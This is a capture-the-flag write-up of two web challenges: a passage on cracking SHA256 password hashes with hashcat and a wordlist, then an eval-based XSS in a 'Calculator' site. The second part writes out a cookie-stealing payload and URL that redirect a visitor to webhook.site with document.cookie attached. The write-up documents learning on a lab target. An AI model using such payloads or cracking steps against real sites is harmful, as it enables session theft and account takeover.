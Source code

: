 Since I knew my own password, I compared different hashing algorithms and discovered passwords were SHA256 hashed. 
![[Pasted image 20241126212334.png]]With the 3 different accounts, using a password cracker like hashcat could probably recover the password of at least 1 account. Brute forcing the passwords using the [10m wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt), we can recover 2 passwords.
![[Pasted image 20241125215837.png]]
From there, we can successfully login and get the flag
![[Pasted image 20241125215925.png]]
`blahaj{sQLi_iS_c00l}`
## Calculator
We are given a website where we can evaluate expressions. The goal of the challenge is to exfiltrate a cookie when the admin bot visits this site.
![[Pasted image 20241127104854.png]]
At first I assumed this was a SSTI challenge, and tried identifying the server by trying various expressions. I first tried parenthesis, which seemed to be blacklisted
![[Pasted image 20241127105527.png]]
I then tried an array, which interestingly worked.
![[Pasted image 20241127105220.png]]
Adding an array and a number together also worked, which hinted at javascript being used
![[Pasted image 20241127110009.png]]
^ javascript jank
Next, we should test the capabilities of the javascript runtime used. I tried the expression `document.cookie`, which returned `undefined`. I then tried setting `window.location`, however some character was blacklisted
![[Pasted image 20241127111314.png]]
By testing various string literals, I was able to use (\`)  to create strings
![[Pasted image 20241127111458.png]]![[Pasted image 20241127111515.png]]
By using an expression like
```javascript
window.location=`lol`
```
, I was redirected successfully.
![[Pasted image 20241127111921.png]]
 At this point I realized the challenge was not about SSTI since the javascript was executed in the browser. Knowing this, I blindly constructed a payload to exfiltrate the document cookie
```javascript
window.location=`https://webhook.site/...?`+document.cookie 
```
By submitting the payload to the bug report url, we are able to get the flag
`http://calculator.c1.blahaj.sg/calculate?expression=window.location%3D%60https%3A%2F%2Fwebhook.site%2F...%3F%60%2Bdocument.cookie`
![[Pasted image 20241127112406.png]]
`blahaj{3VaL_i5_WeIrD}`
> In hindsight, we were told the flag was found in cookies, which should have hinted at XSS instead of SSTI. If I had bothered looking at the html, I would've even found the eval expression: 
```html
<div class="container">
        <h1 class="text-center">Calculation Result</h1>
        <p class="text-center">Expression: <strong>1+2</strong></p>
        
            <p class="text-center">Result: <span id="result" class="font-weight-bold">3</span></p>
            <script>
                try {
                    const result = eval(1+2);
                    document.getElementById('result').innerText = result;
                } catch (error) {
                    document.getElementById('result').innerText = 'Error in expression';
                }
            </script>
```